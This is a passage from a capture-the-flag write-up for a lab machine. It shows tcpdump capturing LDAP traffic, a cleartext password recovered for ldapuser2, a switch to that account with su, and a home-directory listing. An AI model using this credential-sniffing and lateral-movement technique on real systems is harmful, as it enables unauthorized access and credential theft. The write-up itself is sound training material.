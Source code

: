 ### Sniff LDAP authentication

Here's my assumption.
- The server regularly check access.log, and create a new user as the visitor's IP address.
- This can be done with LDAP protocol.
- What if we can sniff the LDAP request which might contain authentication info?

I captured traffic using `tcpdump`. It captures LDAP packet after a few `/reset.php` page visits.

```bash
[10.10.14.7@lightweight tmp]$ tcpdump -i lo -nnXs 0 'port 389' -w ldap.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```

After a while, I moved the `pcap` file to kali, and opened it with wireshark.

![](attachments/lightweight_6.png)

If my guess was correct, `ldapuser2`'s password is `8bc8251332abe1d7f105d3e53ad39ac2`.
Using this credential, let's try switching user to `ldapuser2`.

```bash
[10.10.14.7@lightweight tmp]$ su ldapuser2
Password: 

[ldapuser2@lightweight tmp]$ id
uid=1001(ldapuser2) gid=1001(ldapuser2) groups=1001(ldapuser2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[ldapuser2@lightweight tmp]$ whoami
ldapuser2
```

I got `ldapuser2`'s shell!



# Shell as `ldapuser1`

### Enumeration

```yaml
[ldapuser2@lightweight ~]$ ls -al
total 1880
drwx------. 4 ldapuser2 ldapuser2     197 Sep 27  2021 .
drwxr-xr-x. 7 root      root           93 Mar  9 08:48 ..
-rw-r--r--. 1 root      root         3411 Jun 14  2018 backup.7z
lrwxrwxrwx. 1 root      root            9 Sep 27  2021 .bash_history -> /dev/null
-rw-r--r--. 1 ldapuser2 ldapuser2      18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser2 ldapuser2     193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser2 ldapuser2     246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser2 ldapuser2      18 Jun 11  2018 .cache
drwxrwxr-x. 3 ldapuser2 ldapuser2      18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser2 ldapuser2 1520530 Jun 13  2018 OpenLDAP-Admin-Guide.pdf
-rw-rw-r--. 1 ldapuser2 ldapuser2  379983 Jun 13  2018 OpenLdap.pdf
```